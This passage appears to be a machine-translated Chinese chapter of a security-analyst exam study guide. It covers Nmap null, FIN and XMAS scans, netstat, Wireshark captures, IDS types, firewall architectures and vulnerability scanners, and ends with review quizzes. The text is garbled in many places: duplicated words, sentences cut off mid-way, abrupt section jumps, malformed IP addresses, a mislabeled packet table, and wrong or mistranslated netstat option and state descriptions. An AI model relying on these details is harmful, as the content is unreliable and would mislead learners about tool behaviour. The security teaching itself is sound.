
如你所见，在大多数情况下，客户依赖服务提供者来防止这些问题的发生。组织与供应商签订的任何协议都应该清楚地解决这些关注的问题。

环境侦测测试应涉及所有这些不当访问的情况。识别出的任何问题都应由供应商立即解决。

在环境侦测测试期间，安全分析师有许多工具可以使用，而且其中许多工具与黑客使用的工具相同，这并非巧合。以下章节将介绍这些工具中最常用的部分，并描述通过使用每种工具可以确定有关环境安全的哪些类型的信息。

`Nmap` 是今天最流行的扫描工具之一。在对扫描包设置某些标志并执行扫描后，安全分析师（以及黑客）可以根据收到的响应做出某些假设。这些标志用于控制 TCP 连接过程，且仅存在于数据包中。图 1-4 显示了一个圈了重要标志的 TCP 头部。通常情况下，标志由于正常的 TCP 过程被“打开”，但黑客可以伪造数据包来检查他想要检查的标志。

| 8 | | 16 | | 24 | | 32 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 源端口 | | 目的端口 | | | | |
| 序列号 | | | | | | | | |
| 数据偏移 | 预留 | URG | ACK | PSH | RST | SYN | 窗口大小 |
| | | | | | | | | |
| 校验和 | | 紧急指针 | | | | | | |
| | 选项 | | | 填充 | | | | |

图 1-4 显示了这些标志，其他包括：

- `URG`: 紧急指针字段有效
- `ACK`: 确认字段有效
- `PSH`: 推送功能
- `RST`: 重置连接
- `SYN`: 同步序列号
- `FIN`: 发送者没有更多数据

安全分析师和黑客都可以在扫描包中设置这些标志并进行扫描，以获得允许他们做出某些假设的响应。

`Nmap` 利用三种扫描类型进行漏洞利用：

- 空扫描（Null scan）：空扫描是一系列包含序列号为 0 且未设置任何标志的 TCP 数据包。由于空扫描不包含任何标志，它有时可以穿过过滤带有特定标志入站数据包的防火墙和边缘路由器。当发送数据包时，可能有两种响应：
    - 无响应：目标上的端口是开放的。
    - `RST`：目标上的端口是关闭的。

图 1-5 显示了使用命令 `nmap -sN` 执行空扫描的结果。在这种情况下，`nmap` 没有收到响应，但无法确定这是因为防火墙拦截了端口，还是目标上的端口是关闭的。因此，它被列为“开放/已过滤”（`open/filtered`）。



- FIN 扫描（FIN scan）：此类扫描设置了 `FIN` 位。当发送此数据包时，有两种响应：
    - 无响应：目标上的端口是开放的。
    - `RST/ACK`：目标上的端口是关闭的。

示例 1-1 显示了使用命令 `nmap -sF` 执行 `FIN` 扫描的示例输出，其中包含了 `-v` 以进行详细输出。同样，`nmap` 没有收到响应，但无法确定这是因为防火墙拦截了端口，还是目标上的端口是关闭的。因此，它被列为“开放/已过滤”。

```
# nmap -sF -v 192.168.0.7
Starting nmap 3.81 at 2016-01-23 21:17 EDT
Initiating FIN Scan against 192.168.0.7 [1663 ports] at 21:17
The FIN Scan took 1.51s to scan 1663 total ports.
Host 192.168.0.7 appears to be up ... good.
Interesting ports on 192.168.0.7:

- (The 1654 ports scanned but not shown below are in state: closed)
PORT STATE SERVICE
21/tcp open|filtered ftp
22/tcp open|filtered ssh
23/tcp open|filtered telnet
79/tcp open|filtered finger
110/tcp open|filtered pop3
111/tcp open|filtered rpcbind
514/tcp open|filtered shell
886/tcp open|filtered unknown
2049/tcp open|filtered nfs
MAC Address: 00:03:47:6D:2D:D7 (Intel)

Nmap finished: 1 IP address (1 host up) scanned in 2.276 seconds
Raw packets sent: 1674 (66.9KB) | Recvd: 1655 (76.1KB)
```

- XMAS 扫描（XMAS scan）：此类扫描设置了 `FIN`、`PSH` 和 `URG` 标志。当发送此数据包时，有两种响应：
    - 无响应：目标上的端口是开放的。
    - `RST`：目标上的端口是关闭的。

图 1-6 显示了使用命令 `nmap -sX` 的扫描结果等。在这种情况下，`nmap` 没有收到响应，但无法确定这是因为防火墙拦截了端口，还是目标上的端口是关闭的。因此，它被列为“开放/已过滤”。

```
Starting nmap 3.81 at 2016-01-23 21:17 EDT

Initiating XMAS Scan against 192.168.0.7 [1663 ports] at 21:17

The XMAS Scan took 1.51s to scan 1663 total ports.

...

Nmap scan report

Host 192.168.0.7 appears to be up ... open/filtered.

Interesting ports on 192.168.0.7:

- (The 1654 ports scanned but not shown below are in state: closed)

PORT STATE SERVICE

21/tcp open|filtered ftp

22/tcp open|filtered ssh

23/tcp open|filtered telnet

79/tcp open|filtered finger

110/tcp open|filtered pop3

111/tcp open|filtered rpcbind

514/tcp open|filtered shell

886/tcp open|filtered unknown

2049/tcp open|filtered nfs

MAC Address: 00:03:47:6D:2D:D7 (Intel)

Nmap finished: 1 IP address (1 host up) scanned in 2.276 seconds

Raw packets sent: 1674 (66.9KB) | Recvd: 1655 (76.1KB)
```


在环境侦察测试期间，你应该使用网络映射工具来识别黑客可以看到的内容，并识别拓扑中的未知设备。

## Netstat

`Netstat` 是一个命令行实用程序，用于显示 `TCP/IP` 网络连接、路由表、网络接口和网络协议统计数据。在环境侦察测试期间，你可以使用此命令来识别主机上的所有当前连接。在此处使用时，命令为 `netstat -a`。图 1-9 显示该命令的示例输出。

图 1-9. `netstat -a` 输出

```
Microsoft Windows [版本 6.1.7601]

C:\Users\McMillan>netstat -a

活动连接

| 协议 | 本地地址 | 外部地址 | 状态 |
|---|---|---|---|
| TCP | 0.0.0.0:13 | KPREMLT0120:0 | 监听 |
| TCP | 0.0.0.0:45 | KPREMLT0120:0 | 监听 |
| TCP | 0.0.0.0:404 | KPREMLT0120:0 | 监听 |
| TCP | 192.168.230:49293 | msnh65-52-108-76: 已建立 |
| TCP | 192.168.230:49294 | mia7a35-15-fi14: 已建立 |
| TCP | 192.168.230:49295 | ec254-76-fi14: CLOSE WAIT |
| TCP | 192.168.230:49296 | mshay92-21-08: CLOSE WAIT |
| TCP | 192.168.230:49297 | 162.125.17.1: CLOSE WAIT |
| TCP | 192.168.230:49298 | 93.184.215.200: TIME WAIT |
| TCP | 192.168.230:49299 | dfw256-06-14: 已建立 |
| TCP | 192.168.230:49300 | dfw257-07-fi13: 已建立 |
| TCP | 192.168.230:49301 | dfw258-08-fi12: 已建立 |
| TCP | 192.168.230:49302 | dfw255-12-fi14: 已建立 |
| TCP | 192.168.230:49303 | depho7: 已建立 |
| TCP | 192.168.230:49304 | 58-160: CLOSE WAIT |
| TCP | 192.168.230:49305 | 157-7-7-136: TIME WAIT |
| TCP | 192.168.230:49306 | of-: TIME WAIT |
| TCP | 192.168.230:49307 | 104.247.142.166: CLOSE WAIT |
| TCP | 192.168.230:49308 | ec207-32-169-109: TIME WAIT |
| TCP | 192.168.230:49309 | ec207-32-169-109: TIME WAIT |
| TCP | 192.168.230:49310 | ec207-32-169-109: TIME WAIT |
| TCP | 192.168.230:49311 | xx-fcdn-shw-04-mi13: 已建立 |
| TCP | 192.168.230:49312 | xx-fcdn-shw-01-mi14: 已建立 |
| TCP | 192.168.230:49313 | 209.251.249.230: 已建立 |
| TCP | 192.168.230:49314 | 231.101.158.111: 已建立 |
| TCP | 192.168.230:49315 | v192.02.72.16: 已建立 |
| TCP | 192.168.230:49316 | v192.02.72.16: 已建立 |
| TCP | 192.168.230:49317 | 120.27.176.27: CLOSE WAIT |
| TCP | 192.168.230:49318 | 120.27.176.27: 已建立 |
| TCP | 192.168.230:49319 | 183.134.86: 已建立 |
| TCP | 192.168.230:49320 | 183.134.86: 已建立 |
```

此内容的每一行列出了 `IP` 地址和端口号、主机名或连接状态。这些是可能的状态：

- `LISTENING`：表示来自任何远程 `TCP` 连接的请求。
- `SYN-SENT`：表示已发送连接请求。
- `SYN-RECEIVED`：表示在发送连接请求后等待确认。
- `ESTABLISHED`：表示已建立连接，是 `TCP` 数据传输阶段的正常状态。
- `FIN-WAIT-1`：表示等待远程 `TCP` 连接的终止请求。
- `FIN-WAIT-2`：表示等待远程 `TCP` 连接的终止确认。
- `CLOSE-WAIT`：表示等待本地用户的终止请求。
- `CLOSING`：表示等待远程 `TCP` 连接的终止确认。
- `LAST-ACK`：表示等待发送到远程 `TCP` 连接的终止请求确认。

你可以在环境测试期间使用此工具的不同参数组合识别主机上可能存在的任何异常连接。

| 参数 | 描述 |
|---|---|
| `/?` (Windows) | 显示命令帮助。 |
| `-h` (Unix) | 每秒显示一次选定的信息。按 `Ctrl+C` 停止。 |
| `-v` (Windows) | 使用 `-h` 时仅显示一次。 |
| `-W` (FreeBSD) | 显示宽输出；不截断主机名或 `IPv6` 地址。 |
| `-t` (Linux) | 显示 `TCP` 连接。 |
| `-s` | 指定一组协议。 |
| `-r` | 显示路由表。 |
| `-P` (Solaris) | 显示指定协议的连接。 |
| `-p` (Linux) | 显示哪些进程在使用哪些套接字。 |
| `-p` (Windows and BSD) | 显示指定协议的连接。 |
| `-o` (Windows) | 显示所有活动连接并包括每个连接的进程 ID (`PID`)。 |
| `-n` | 显示活动连接。 |
| `-m` | 显示内存统计数据。 |
| `-i` | 显示网络接口及其统计数据（Windows 不可用）。 |
| `-g` | 显示 `IPv4` 和 `IPv6` 的组信息（在较新的系统中可用）。 |
| `-f` (FreeBSD) | 限制到特定的地址族。 |
| `-f` (Windows) | 显示完全域名（在 Windows Vista 及更高系统中可用）。 |
| `-e` | 显示以太网统计数据，例如发送和接收的字节数。 |
| `-b` (macOS, NetBSD) | `-i` 报告流量总字节数。 |
| `-b` (Windows) | 显示参与创建每个连接的二进制可执行程序名称。 |
| `-a` | 显示所有活动连接以及计算机监听的 `UDP` 端口。 |

数据包（或协议）分析器可以是独立设备，也可以运行在笔记本电脑上的软件（如 `Wireshark`）。你可以通过交换器的端口镜像功能使用数据包分析器捕获流量。你可以检查捕获的数据包以区分通信流的细节。

图 1-10 显示了 `Wireshark` 中的数据包分析器输出。顶部面板显示捕获的数据包。选择了编号为 3 的行，数据包的部分显示在中间面板。在这种情况下，数据包是 `DNS` 服务器对查询设备的响应。底部面板显示实际数据，由于此数据包未加密，你可以看到用户正在请求 `www.com` 的 `IP` 地址。此面板可以读取任何未加密的数据包。

| 号 | 时间 | 源 | 目的 | 信息 |
|---|---|---|---|---|
| 1 | 0 | 192.168.0.122 | 192.168.0.1 | get-response ICMPv2-enterprise 11.2.9.6.4.2.1.4.1.5.7.2 |
| 2 | 0 | 192.168.0.1 | 192.168.0.122 | get-request ICMPv2-enterprise 11.2.9.6.4.2.1.4.1.5.7.2.1 |
| 3 | 0 | 192.168.0.122 | 192.168.0.1 | standard query for www.com |
| 4 | 0 | 192.168.0.122 | 192.168.0.1 | SYN [seq=0, win=64240, MSS=1460] |
| 5 | 0 | 192.168.0.1 | 192.168.0.122 | SYN-ACK [seq=0, ack=0, win=65535, MSS=1460] |
| 6 | 0 | 192.168.0.122 | 192.168.0.1 | ACK [seq=1, ack=1, win=64240] |

在环境侦察测试期间，我们使用这些分析器来识别流量未加密但可以加密、不应在网络使用的协议或匿名性。你可以使用这些工具来识别某些类型的攻击。图 1-11 显示了 `Wireshark` 输出，表明正在进行 `SYN` 洪水攻击。注意灰色高标记的行。这些都是发送到 `10.1.0.2` 的 `SYN` 数据包，并且是 `SYN` 洪水攻击的一部分。注意目标设备正在用 `RST/ACK` 包回答，这表明端口是关闭的（红色高亮行）。其中一个 `SYN` 数据包（蓝色高亮）已打开，在底部面板中显示其详细信息。你可以展开此面板并读取 `TCP` 协议所有四层的信息。目前传输层处于展开状态。

| | | | | | | |
|---|---|---|---|---|---|---|
| 4.000137000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-2296 (RST, ACK) Seq1=win1 Len=0 |
| 6.000160000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-3298 (RST, ACK) Seq1=win1 Len=0 |
| 8.000108000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-4300 (RST, ACK) Seq1=win1 Len=0 |
| 10.000134000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-5300 (RST, ACK Seq1=win1 Len=0 |
| 12.000140000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-6300 (RST, ACK) Seq1=win1 Len=0 |
| 12.000162000 | 10.1.0.1 | | 10.1.0.2 | TCP | 64-7300 (RST, ACK) Seq1=win1 Len=0 |
| 13.000617000 | 10.1.0.2 | | 10.1.0.1 | TCP | 78-2306 (SYN) Seq0=win192 MSS=1460 SWS=7 |
| 14.000155000 | 10.1.0.2 | | 10.1.0.1 | TCP | 78-2406 (SYN) Seq0=win192 MSS=1460 SWS=7 |
| 15.000024000 | 10.1.0.2 | | 10.1.0.1 | | 60-2307 (F) Ack1=Sndl=win876 Len=0 |

- 帧 9: 78 字节 (84 字节), 在接口 `eth0` 上捕获到 78 字节 (64 字节)
- 以太网源: `00:0c:29:4f:8b:11`, 目的: `00:0c:29:4f:8b:12`, 长度: 78
- `IP` 版本 4, 源: `10.1.0.2`, 目的: `10.1.0.1`, `ttl`: 64, 协议: 6, `id`: `00:4b:03:c4:a4`
- 协议: 传输控制
- 源端口: 2302 源: `10.1.0.2` (`10.1.0.2`), 目的: `10.1.0.1` (`10.1.0.1`)
- `[TCP 段长度 0]`
- 序列号: 0 (相对序列号)
- 确认号: 0
- 头部长度: 44 字节
- 窗口 `0x0000` 标志: `0x02` (`SYN`)
- 窗口大小: 8192

# IDS/IPS

当你使用数据包分析器在环境侦察期间手动监控网络问题时，一种更省力且高效的检测问题的方法是使用入侵检测系统（`IDS`）和入侵防御系统（`IPS`）。

`IDS` 负责检测针对系统和网络的未经授权访问或攻击。它可以验证、分类并表征来自网络外部和内部的威胁。大多数 `IDS` 都被程序会在特定情况下做出响应。事件通知和告警对 `IDS` 至关重要。它们会通知管理员和安全人员何时以及何地发现了攻击。

`IDS` 的实现进一步分为以下几类：

- **基于特征的 (Signature based)**：这种类型的 `IDS` 分析流量并将其与 `IDS` 数据库中的攻击或状态模式（称为特征）进行比较。它也被称为误用检测系统。尽管这种 `IDS` 非常流行，但它只能识别与其数据库匹配的攻击，且其有效性完全取决于提供的特征。因此，需要频繁更新。基于特征的 `IDS` 主要有两种类型：
    - **模式匹配 (Pattern matching)**：`IDS` 将流量与攻击模式数据库进行比较。当 `IDS` 检测到匹配攻击模式的流量时，它会执行特定的步骤。
    - **状态匹配 (Stateful matching)**：`IDS` 记录初始操作系统的状态。系统状态任何特定违反定义规则的更改都会导致发送告警或通知。
- **基于异常的 (Anomaly based)**：这种类型的 `IDS` 分析流量并与正常流量进行比较，以确定该流量是否为威胁。它也被称为基于行为或基于配置的系统。这种系统的问题在于，任何超出预期范围的流量都会被报告，导致比基于特征的系统更多的误报。基于异常的 `IDS` 有三种主要类型：
    - **基于统计异常的 (Statistical anomaly based)**：`IDS` 对现场环境进行采样以记录活动。`IDS` 运行时间越长，其准确性越高。这会导致比基于特征的系统更多的误报。
    - **基于协议的 (Protocol based)**：`IDS` 监控流量是否偏离既定协议。
    - **基于流量的 (Traffic based)**：`IDS` 监控流量的大小和模式以识别异常。

状态检测防火墙还能够识别试图误用此过程的其他攻击类型。它通过维护一个记录了所有当前连接以及每个连接过程状态的状态表来实现这一点。这使得它能够识别任何与当前连接状态不符的逻辑流量。当然，维护此表并对其进行引用会导致该类型的防火墙对性能的影响大于包过滤防火墙。

代理防火墙实际上位于外部每个连接的之间，并代表端点建立连接。因此，它们之间没有直接连接。代理防火墙充当两个端点之间的中继。代理防火墙可以在 `OSI` 模型的两个不同层上运行。下文将简要讨论两者。

电路级代理运行在 `OSI` 模型的会话层（第 5 层）。它们根据协议头和会话层信息做出决策。由于它们不进行深度包检测（在第 7 层应用层），因此它们被认为与应用程序无关，可以用于广泛的第 7 层协议类型。

`SOCKS` 防火墙是电路级防火的一个示例。它要求计算机上安装 `SOCKS` 客户端。许多供应商已将他们的软件与 `SOCKS` 集成，以使这种防火墙的使用更加方便。

应用级代理执行深度包检测。这种类型的防火墙能够理解感兴趣应用程序在第 7 层通信过程的细节。应用级防火墙为每种协议维护一个不同的代理函数。例如，对于 `HTTP`，代理可以根据特定的 `HTTP` 命令读取并过滤流量。在这一层运行需要每个数据包都被完全打开和关闭，因此这种类型的防火墙对性能的影响最大。

动态包过滤并不是描述一种防火墙类型；而是描述一种防火墙可能具有或不具备的功能。当内部计算机尝试与远程计算机建立会话时，它会在数据包中放置源端口和目的端口。例如，如果计算机正在向 Web 服务器发送请求，因为 `HTTP` 使用 80 端口，因此目标是 80 端口。

源计算机从常用端口号以上的可用数字中随机选择源端口（即

内核代理防火墙是五代防火墙的一个示例。它会检查 `OSI` 模型中每一层的的数据包，但不会像应用级防火墙那样产生同样的性能影响，因为它在内核层执行此操作。它也遵循代理模型，即置于两个系统之间并代表它们创建连接。

## 防火墙架构

防火墙的类型说的是防火墙的内部运行机制，而架构指的是防火墙或多个防火墙在网络中部署以形成保护系统的方式。本节将介绍直接暴露在互联网或任何不可信网络上的各种设备、防火墙的各种部署方式以及这些各种配置的名称。

堡垒机（Bastion host）可能是防火墙也可能不是。该术实际上指的是任何设备的位置。如果它直接暴露在互联网或任何不可信网络上，则称为堡垒机。无论是防火墙、`DNS` 服务器还是 Web 服务器，所有标准的加固程序对于暴露的设备都变得更加重要。应该停止所有不必要的服务，关闭所有不必要的端口，并确保所有安全补丁都是最新版本。这些程序被称为“减少攻击面”。

双宿主防火墙（Dual-homed firewall）具有两个接口的防火墙：一个指向内部网络，另一个连接到不可信网络。在许多情况下，这些接口之间的路由会被关闭。防火墙软件根据管理员配置的防火墙规则，允许或拒绝两个接口之间的流量。依赖单双主机防火墙的危险在于它提供了单点故障。如果该设备被攻破，网络也会被攻破。如果它遭受拒绝服务（`DoS`）攻击，则没有流量可以通过。这两种都不是良好的情况。

在某些情况下，防火墙可能是多宿主的。一种流行的类型是三脚防火墙（Three-legged firewall）。这种配置有三个接口：一个连接到不可信网络，一个连接到内部网络，最后一个连接到称为非军事化区（`DMZ`）的网络部分。`DMZ` 是网络的一部分，系统会定期从不可信网络访问那里。例如，这些可能是 Web 服务器或电子邮件服务器。防火墙可以配置为控制流在三个网络之间的流量，但对于通往 `DMZ` 的流量要小心，并对通往内部网络的流量保持高度的怀疑。

尽管目前讨论的防火墙直接连接到不可信网络，但屏幕主机（Screened host）是位于最终路由器和内部网络之间的防火墙。当流量进入路由器并转发到防火墙时，它在进入内部网络之前会被检查。

屏幕子网（Screened subnet）将这一概念进一步。在这种情况下，使用了两个防火墙，流量必须在两个防火墙处都被检查才能进入内部网络。它被称为屏幕子网，是因为两个防火墙之间有一个子网，可以作为外部世界资源的 `DMZ`。

在现实世界中，各种防火墙方法被混合使用以满足需求，因此你可能会发现所有这些架构概念的元素被应用于特定场景中。

# Syslog

所有基础设施设备如防火墙、路由器和交换机都具有记录各种类型事件的日志。这些日志可能包含对于系统安全和性能故障排除非常有价值的信息。这些事件消息可以重定向到称为 `Syslog` 服务器的中央服务器。这为所有事件提供了一个单一访问系统。它通过将各种设备的事件合并到单个日志中，使其更容易关联不同设备上的事件。为了确保事件的正确排序，所有设备都应该使用网络时间协议（`NTP`）服务器从单一源同步时间。

## 漏洞扫描器

漏洞扫描器是用于探测和发现网络安全弱点的工具或实用程序。漏洞扫描器有两种：

- 被动漏洞扫描器：被动漏洞扫描器（`PVS`）监控网络流量以确定拓扑、服务和漏洞。它避免了通过主动扫描漏洞可能引入系统的不稳定性。`PVS` 工具分析数据包流并通过直接分析查找漏洞。它们的部署方式与 `IDS` 或数据包分析器相似。`PVS` 可以选取针对受保护服务器的网络会话并根据需要进行监控。`PVS` 最大的优势是它可以在不影响监控网络的情况下完成工作。一些 `PVS` 的示例包括 `Tenable PVS` 和 `NetScanTools Pro`。
- 主动漏洞扫描器：虽然被动扫描器只能收集信息，但主动漏洞扫描器（`AVS`）可以采取行动阻止攻击，例如拦截危险 `IP` 地址。它们还可以被用于模拟攻击以评估准备情况。它们通过向节点发送传输并检查响应来运行。由于由于，这些扫描可能会可能会网络流量。示例包括 `Nessus` 和微软基线安全分析（`MBSA`）。

无论是主动还是被动，漏洞扫描器都无法替代经过训练的安全人员的知识。此外，这些扫描器的有效性取决于它们所依赖的签名数据库，因此数据库必须定期更新。最后，扫描器需要带宽并可能会减慢网络。

为了获得性能，你可以将漏洞扫描器放置在需要保护的子网中。你还可以通过防火墙连接扫描器到

多个子网；这增加了配置的复杂性，并要求在防火墙上开启端口，可能会导致问题并影响防火墙的性能。

## 考试准备任务

如引言中“考试准备策略”章节所述，你对考试准备有几种选择：此处的练习题、第 15 章“期末准备”以及 `Pearson IT` 认证引擎中的模拟考试。

## 复习所有关键主题

复习本章最重要的主题，这些主题在页面的外边缘用“关键主题”图标标记出。表 1-5 列出了这些关键主题以及它们所在的页码。

表 1-5. 第 1 章的关键主题

| 关键主题元素 | 描述 | 页码 |
|---|---|---|
| 列表 | 虚拟化攻击 | |
| 列表 | `ACL` 漏洞 | |
| 列表 | `ACL` 指南 | |
| 列表 | 公有云安全问题 | |
| 表格 1-4 | `Neistat` 参数 | |
| 列表 | `IDS` 实现 | |

## 定义关键术语

定义本章中的以下关键术语，并对照术表检查你的答案：

- 拓扑发现 (topology discovery)
- 操作系统指纹识别 (operating system fingerprinting)
- 服务发现 (service discovery)
- 数据包捕获 (packet capture)
- 邮件采集 (e-mail harvesting)
- 社交媒体画像分析 (social media profiling)
- `DNS` 采集 (`DNS` harvesting)
- `A`
- `AAAA`
- `CNAME`
- `NS`
- `MX`
- `SOA`
- 钓鱼 (phishing)
- `WPA` Personal
- `WPA` Enterprise
- `WPA2` Personal
- `WPA2` Enterprise
- 虚拟机泛滥 (VM sprawl)
- 虚拟化程序攻击 (hypervisor attack)
- `NMAP`
- 空扫描 (Null scan)
- `FIN` 扫描 (`FIN` scan)
- `XMAS` 扫描 (`XMAS` scan)
- 主机扫描 (host scanning)
- 网络映射 (network mapping)
- `NETSTAT`
- 数据包分析器 (packet analyzer)
- `IDS`
- 基于特征的 (signature based)
- 模式匹配 (pattern matching)
- 状态匹配 (stateful matching)
- 基于异常的 (anomaly based)
- 基于统计异常的 (statistical anomaly based)
- 基于协议异常的 (protocol anomaly based)
- 基于流量异常的 (traffic anomaly based)
- 基于规则或启发规则的 (Rule or heuristic based)
- 网络型 `IDS` (network-based `IDS`)
- 数据包过滤防火墙 (packet-filtering firewall)
- 状态防火墙 (stateful firewall)
- 代理防火墙 (proxy firewall)
- 电路级代理 (circuit-level proxy)
- 应用层代理 (application-level proxy)
- 动态数据包过滤 (dynamic packet filtering)
- 内核代理防火墙 (kernel proxy firewall)
- 堡垒主机 (bastion host)
- 双宿防火墙 (dual-homed firewall)
- 多主的 (multihomed)
- `DMZ`
- 过滤子网 (screened subnet)
- 被动漏洞扫描器 (passive vulnerability scanner)
- 主动漏洞扫描器 (active vulnerability scanner)

## 复习题

1. 你刚开始一份新工作，对网络的了解非常少少。文档也不够充分。以下哪项可以让你确定网络中的设备、它们之间的连接关系以及要使用的内部 `IP` 划分方案？
    a. 拓扑发现
    b. 操作系统指纹识别
    c. 服务发现
    d. 数据包捕获

2. 在观察第三方进行渗透测试时，你无意听到关于扫描网络中所有端口的讨论。第三方正准备执行哪种操作？
    a. 拓扑发现
    b. 操作系统指纹识别
    c. 服务发现
    d. 数据包捕获

3. 尽管你反复告诉用户特定类型的流量必须始终加密，但你发现合规性低于 100%。以下哪项可以揭示用户仍在发送未加密的网络流量？
    a. 拓扑发现
    b. 操作系统指纹识别
    c. 服务发现
    d. 数据包捕获

4. 你刚刚发现一个 `SSID` 与合法 `AP` 相同但位于通道道的接入点。这叫什么？
    a. 恶性孪生 (Evil twin)
    b. 填充室 (Padded cell)
    c. 密室门 (Mantrap)
    d. 蜜罐 (Honeypot)

5. 当客宾 OS 跳出其虚拟机封装并直接与虚拟化程序交互时，会发生什么情况？
    a. 虚拟机泛滥 (VM sprawl)
    b. 虚拟机逃逸 (VM escape)
    c. `DDOS`
    d. 虚拟化程序被破坏 (Hypervisor compromise)

6. 该组织决定进行自己的渗透测试，为合规机构将进行的测试做准备。该组织需要一个端口扫描工具。以下哪项是目前最常用的端口扫描工具之一？
    a. `Netstat`
    b. `Wireshark`
    c. `Nmap`
    d. `Nbtstat`

7. 一名不满的员工一直在访问违反公司政策的网站。他已被带离机器，现在你可以访问那台机器了。以下哪项是你可以使用的命令行工具，用于显示 `TCP/IP` 连接、路由表、网络接口和网络协议统计数据？
    a. `Netstat`
    b. `Wireshark`
    c. `Nmap`
    d. `Nbtstat`

8. 在最近的第三方安全评估后，建议部署一种可以检测针对系统和网络的未经授权访问或攻击的设备。这是哪种设备？
    a. 防火墙
    b. 电路代理
    c. `IDS`
    d. 嗅器 (Sniffer)

9. 一个组织拥有一个设备，每当出现安全问题时都会报警。然而，最近一次攻击造成的损害超出了预期，因为团队反应不够快。以下哪种系统可以在识别问题时采取行动？
    a. 漏洞扫描器
    b. `IPS`
    c. `IDS`
    d. 嗅器

10. 一个组织刚刚更新了防火墙。新防火墙有两个接口：一个指向互联网，另一个指向局域网。这种配置称为什么？
    a. 过滤子网 (screened subnet)
    b. 三脚的 (three-legged)
    c. 基于...的 (based)
    d. 多主的 (multihomed)

# 第 2 章 分析侦察结果

本章涵盖了以下主题：

1.0 威胁管理

1.2 给定场景，分析侦察的结果：

- **时间点分析 (Point-in-Time Analysis)**：包括数据包分析、协议分析、流量分析和流量 分析。
- **关联分析 (Data Correlation and Analytics)**：包括异常分析、趋势分析、可用分析和行为分析。
- **数据输出 (Data Output)**：包括防火墙日志、数据包捕获、`IDS` 日志和 `syslog`。
- **工具 (Tools)**：包括 `SIEM` 系统、数据包分析器和 `NetFlow` 分析。

在网络侦察期间，通过第 1 章描述的工具和方法收集了大量信息。作为安全分析师，你必须能够分析并解释你看到的内容，并消除任何漏洞。

## “你掌握了吗？”测验

“你掌握了吗？”测验可以让你评估是否应该阅读整个章节。下表 2-1 列出了本章的主要章节以及“你掌握了吗？”测验题目，以便评估你对这些领域的知识。测验答案位于附录 A，“你掌握了吗？”测验答案与复习题”。如果你错超过一个，就可以跳到“考试准备”。

表 2-1. “你掌握了吗？”测验基础章节题目映射

| 基础章节 | 题目编号 |
|---|---|
| 时间点分析 | 1 |
| 关联分析 | 6 |
| 数据输出 | 2, 3 |
| 工具 | 4, 5 |

1. 你最近使用 `Wireshark` 捕获了一系列数据包。你正在将一个数据包分解为组成部分。以下哪项不是捕获数据包中的部分？
    a. 帧 (Frame)
    b. 以太网二 (Ethernet II)
    c. `IP` 4
    d. 应用 (Application)

2. 在镜像上安装新应用程序后无法运行。你想检查参考机器上的日志以查看可能出现的问题。以下哪种 Windows 日志关注程序安装期间发生的事件？
    a. 系统 (System)
    b. 安全 (Security)
    c. 应用 (Application)
    d. 安装 (Setup)

3. 由于收集所有基础设施设备安全日志的工作量，评估网络安全问题变得越来越困难。以下哪项可以让所有设备将日志发送到中央服务器？
    a. `syslog`
    b. `NetFlow`
    c. `Snort`
    d. `Metasploit`

4. 从一次安全会议回来后，你的老板对一种新系统赞誉有加，该系统是集中和分析安全事件并决定需要关注问题的自动化解决方案。他指的是哪种系统？
    a. `syslog`
    b. `SIEM`
    c. `Snort`
    d. `Metasploit`

5. 贵公司的 `IDS` 最近漏掉了识别一个新威胁，因为该威胁非常新。以下哪项最可能是该 `IDS` 的架构？
    a. 基于异常的 (Anomaly based)
    b. 模式匹配 (pattern matching)
    c. 基于签名的
    d. 状态匹配

6. 安全团队上周的某个晚上留了一整夜对某些服务器进行维护。在维护期间，`IDS` 记录了多条警报。`IDS` 正在执行哪种类型的分析？
    a. 异常分析
    b. 趋势分析
    c. 可用性分析
    d. 启发式分析

## 基础主题

## 时间点数据分析

时间点分析捕捉指定时间段内的数据，从而提供该时间点或整个指定时间段内状况的快照。本节描述的分析类型涉及获取信息，然后对其进行分析。尽管这些分析类型都需要不同的工具或过程，但它们都遵循这一范式。

## 数据包分析

数据包分析检查整个数据包，包括有效荷（payload）。下文描述的子集协议分析仅关注数据包头部（header）中的信息。在许多情况下，当通过观察头部无法解决问题时，就会对有效荷进行分析。

头部仅关注用于将数据包从源传输到目的地的信息，而有效荷是正在通信的实际数据。当发生性能问题且头部没有显示问题迹象时，研究有效荷可能会发现与所用应用程序相关的错误信息，而这些信息并未出现在头部中。

从安全的角度来看，检查有效荷可以揭示本应加密但未加密的数据。它还可以揭示不应离开网络的光敏感信息。最后，通过检查有效荷中的应用程序命令和请求，可以识别某些攻击。

## 协议分析

正如你刚刚学到的，协议分析是数据包分析的子集，它涉及检查数据包头部的信息。协议分析器检查这些头部以获取诸如使用的协议以及通信过程细节信息（例如源 `MAC` 和目的 `MAC` 地址）。从安全角度来看，这些头部还可以用于判断是否遵循了协议的通信规则。

## 流量分析

